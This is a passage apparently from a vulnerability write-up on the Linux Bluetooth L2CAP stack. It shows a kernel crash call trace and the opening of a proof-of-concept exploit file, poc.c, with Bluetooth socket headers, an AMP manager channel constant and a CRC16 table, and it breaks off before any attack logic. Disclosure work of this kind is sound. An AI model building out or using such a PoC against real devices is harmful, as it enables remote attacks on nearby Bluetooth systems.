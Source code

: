 ```
[  445.440857]  l2cap_data_channel+0x29f/0x470 [bluetooth]
[  445.440875]  l2cap_recv_frame+0xe5/0x300 [bluetooth]
[  445.440878]  ? skb_release_all+0x26/0x30
[  445.440896]  l2cap_recv_acldata+0x2d2/0x2e0 [bluetooth]
[  445.440914]  hci_rx_work+0x186/0x360 [bluetooth]
[  445.440919]  process_one_work+0x1eb/0x3b0
[  445.440921]  worker_thread+0x4d/0x400
[  445.440924]  kthread+0x104/0x140
[  445.440927]  ? process_one_work+0x3b0/0x3b0
[  445.440929]  ? kthread_park+0x90/0x90
[  445.440932]  ret_from_fork+0x35/0x40
```

### poc.c

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

#define AMP_MGR_CID 0x03

static uint16_t crc16_tab[256] = {
  0x0000, 0xc0c1, 0xc181, 0x0140, 0xc301, 0x03c0, 0x0280, 0xc241,
  0xc601, 0x06c0, 0x0780, 0xc741, 0x0500, 0xc5c1, 0xc481, 0x0440,
  0xcc01, 0x0cc0, 0x0d80, 0xcd41, 0x0f00, 0xcfc1, 0xce81, 0x0e40,
  0x0a00, 0xcac1, 0xcb81, 0x0b40, 0xc901, 0x09c0, 0x0880, 0xc841,
  0xd801, 0x18c0, 0x1980, 0xd941, 0x1b00, 0xdbc1, 0xda81, 0x1a40,
  0x1e00, 0xdec1, 0xdf81, 0x1f40, 0xdd01, 0x1dc0, 0x1c80, 0xdc41,
  0x1400, 0xd4c1, 0xd581, 0x1540, 0xd701, 0x17c0, 0x1680, 0xd641,
  0xd201, 0x12c0, 0x1380, 0xd341, 0x1100, 0xd1c1, 0xd081, 0x1040,
  0xf001, 0x30c0, 0x3180, 0xf141, 0x3300, 0xf3c1, 0xf281, 0x3240,
  0x3600, 0xf6c1, 0xf781, 0x3740, 0xf501, 0x35c0, 0x3480, 0xf441,
  0x3c00, 0xfcc1, 0xfd81, 0x3d40, 0xff01, 0x3fc0, 0x3e80, 0xfe41,
  0xfa01, 0x3ac0, 0x3b80, 0xfb41, 0x3900, 0xf9c1, 0xf881, 0x3840,
  0x2800, 0xe8c1, 0xe981, 0x2940, 0xeb01, 0x2bc0, 0x2a80, 0xea41,
  0xee01, 0x2ec0, 0x2f80, 0xef41, 0x2d00, 0xedc1, 0xec81, 0x2c40,
  0xe401, 0x24c0, 0x2580, 0xe541, 0x2700, 0xe7c1, 0xe681, 0x2640,
  0x2200, 0xe2c1, 0xe381, 0x2340, 0xe101, 0x21c0, 0x2080, 0xe041,
  0xa001, 0x60c0, 0x6180, 0xa141, 0x6300, 0xa3c1, 0xa281, 0x6240,
  0x6600, 0xa6c1, 0xa781, 0x6740, 0xa501, 0x65c0, 0x6480, 0xa441,
  0x6c00, 0xacc1, 0xad81, 0x6d40, 0xaf01, 0x6fc0, 0x6e80, 0xae41,
  0xaa01, 0x6ac0, 0x6b80, 0xab41, 0x6900, 0xa9c1, 0xa881, 0x6840,
  0x7800, 0xb8c1, 0xb981, 0x7940, 0xbb01, 0x7bc0, 0x7a80, 0xba41,
  0xbe01, 0x7ec0, 0x7f80, 0xbf41, 0x7d00, 0xbdc1, 0xbc81, 0x7c40,
  0xb401, 0x74c0, 0x7580, 0xb541, 0x7700, 0xb7c1, 0xb681, 0x7640,
  0x7200, 0xb2c1, 0xb381, 0x7340, 0xb101, 0x71c0, 0x7080, 0xb041,
  0x5000, 0x90c1, 0x9181, 0x5140, 0x9301, 0x53c0, 0x5280, 0x9241,
  0x9601, 0x56c0, 0x5780, 0x9741, 0x5500, 0x95c1, 0x9481, 0x5440,
  0x9c01, 0x5cc0, 0x5d80, 0x9d41, 0x5f00, 0x9fc1, 0x9e81, 0x5e40,
  0x5a00, 0x9ac1, 0x9b81, 0x5b40, 0x9901, 0x59c0, 0x5880, 0x9841,
  0x8801, 0x48c0, 0x4980, 0x8941, 0x4b00, 0x8bc1, 0x8a81, 0x4a40,
  0x4e00, 0x8ec1, 0x8f81, 0x4f40, 0x8d01, 0x4dc0, 0x4c80, 0x8c41,
  0x4400, 0x84c1, 0x8581, 0x4540, 0x8701, 0x47c0, 0x4680, 0x8641,
  0x8201, 0x42c0, 0x4380, 0x8341, 0x4100, 0x81c1, 0x8081, 0x4040
};

uint16_t crc16(uint16_t crc, const void *buf, size_t size) {
```
